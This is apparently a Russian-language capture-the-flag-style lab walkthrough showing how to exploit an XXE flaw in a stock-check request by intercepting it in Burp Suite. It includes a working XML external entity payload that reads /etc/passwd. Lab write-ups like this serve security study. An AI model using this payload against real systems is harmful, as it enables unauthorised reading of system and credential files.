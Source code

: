 ## Lab: Exploiting XXE using external entities to retrieve files
1) Переходим на сайт задания и выбираем любой продукт.
2) Нажимаем "Check stock" и перехватываем запрос через Burp Suite.
3) Между объявлением xml и stockCheck вставляем:
```php
  <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
 ```
4) Значение в productId меняем на &xxe;
5) Отправляем запрос

![](https://github.com/NaylyaZh99/hacking/blob/master/lab%20XXE/task1/image.png)

Готово!
